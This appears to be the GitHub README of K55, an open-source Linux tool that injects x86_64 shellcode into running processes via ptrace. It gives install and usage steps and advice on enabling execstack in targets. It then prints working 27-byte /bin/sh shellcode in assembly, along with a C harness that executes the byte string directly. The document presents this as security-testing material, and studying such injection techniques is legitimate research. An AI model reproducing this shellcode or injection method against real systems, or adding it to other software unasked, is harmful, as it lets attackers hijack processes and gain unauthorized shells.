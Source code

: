 ## K55 - Linux x86_64 Process Injection Utility (C++11)

## About K55 
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root). 
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p> 

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` calls are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack from you distrobutions package manager. For Arch Linux users, you can find execstack on the AUR. 

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

#### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License 
MIT License <br/>
Copyright (c) Josh Schiavone
